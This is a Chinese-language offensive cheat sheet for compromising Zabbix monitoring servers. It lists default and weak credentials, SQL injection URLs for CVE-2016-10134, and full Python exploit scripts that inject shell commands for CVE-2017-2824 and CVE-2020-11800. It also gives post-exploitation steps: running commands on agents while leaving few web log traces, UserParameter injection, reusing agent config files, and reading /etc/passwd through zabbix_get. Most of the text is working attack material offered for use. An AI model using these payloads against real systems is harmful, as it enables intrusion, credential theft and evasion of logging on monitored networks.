









Zabbix
目录
Zabbix是一个设备监控器，监控各个服务器的状态

常见架构，server是监控端，agent是被监控端

若需要大规模监控，则可以用如下模式

系统探测
发起攻击
默认密码
· 超级管理员默认账号：Admin，密码：zabbix · Guests用户，账号：guest，密码为空
· Mysql弱口令
除了默认root用户无法外连之外，运维通常会新建MySQL用户 zabbix，根据用户习惯梳理了zabbix用户的常见密码：
123456
zabbix
zabbix123
zabbix1234
zabbix12345
zabbix123456
CVE-2022-23131
登录绕过
- 5.4.0-5.4.8
- 6.0.0alpha1
https://github.com/Mr-xn/cve-2022-23131
CVE-2016-10134
Zabbix 2.2.14之前的版本和3.0.4之前的3.0版本中存在SQL注入漏洞
访客登录 登录后，查看Cookie中的zbx_sessionid，复制后16位字符
将这16个字符作为sid的值，访问
http://192.168.92.132:8080 /latest.php?output=ajax&sid= sid值&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
payload2，这个payload无需登录
http://192.168.92.132:8080/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get×tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
CVE-2017-2824 - 命令注入
前提：开启自动注册

exp
import sys
import socket
import json
import sys
def send(ip, data):
conn = socket.create_connection((ip, 10051), 10)
conn.send(json.dumps(data).encode())
data = conn.recv(2048)
conn.close()
return data
target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
if data and b'failed' not in data:
print('hostid: %d' % i)
print(data)
CVE-2020-11800 - 命令注入
该漏洞为基于 CVE-2017-2824 的绕过利用。未授权攻击者向 Zabbix Server 的 10051 端口发送 trapper 功能相关命令，利用漏洞即可在 Zabbix Server 上执行系统命令。
其中 CVE-2020-11800 漏洞通过 ipv6 格式绕过 ip 字段检测注入执行 shell 命令，受数据表字段限制 Payload 长度只能为 64 个字符。
{"request":"active checks","host":"vulhub","ip":"ffff:::;whoami"}
exp
import sys
import socket
import json
import sys
def send(ip, data):
conn = socket.create_connection((ip, 10051), 10)
conn.send(json.dumps(data).encode())
data = conn.recv(2048)
conn.close()
return data
target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;whoami"}))
for i in range(10000, 10500):
data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
if data and b'failed' not in data:
print('hostid: %d' % i)
print(data)
后渗透
EnableRemoteCommands 参数远程命令执行
在agent上执行命令需要在zabbix_agentd.conf配置文件中开启EnableRemoteCommands参数，在server上执行命令就不用。
如果要指定某个agent执行该脚本，可从Zabbix Web的“监测中 -> 最新数据”功能中根据过滤条件找到想要执行脚本的主机，单击主机名即可在对应Agent上执行脚本。
这里有个常见误区，如果类型是“执行在Zabbix服务器”，无论选择哪台主机执行脚本，最终都是执行在Zabbix Server上。



zabbix_get
如果不想在Zabbix Web上留下太多日志痕迹，或者想批量控制Agent，拿下Zabbix Server权限后可以通过zabbix_get命令向Agent执行监控项命令，在Zabbix Web执行脚本实际上等于执行system.run监控项命令。
也可以基于Zabbix Server作为隧道跳板，在本地执行zabbix_get命令也能达到同样效果（Zabbix Agent为IP白名单校验）。

UserParameter 自定义参数命令注入
执行监控项时UserParameter参数command命令的\$1、\$2等会被替换成item传参值，存在命令注入的风险，但默认受UnsafeUserParameters参数限制无法传入特殊字符。
当Zabbiax Agent的zabbix_agentd.conf配置文件开启UnsafeUserParameters参数的情况下，传参值字符不受限制，只需要找到存在传参的自定义参数UserParameter，就能达到命令注入的效果。（也就是说，看脸）
内网渗透时候留意agent上的配置文件，并在其他机器上进行复用
Zabbix Agent的配置文件zabbix_agentd.conf通常位于以下位置之一：
- Linux系统：/etc/zabbix/zabbix_agentd.conf
- Windows系统：C:\Program Files\Zabbix Agent\zabbix_agentd.conf

任意文件读取
zabbix_get -s 172.19.0.5 -p 10050 -k "vfs.file.contents[/etc/passwd]"
ref
https://blog.noah.360.net/zabbixgong-ji-mian-wa-jue-yu-li-yong/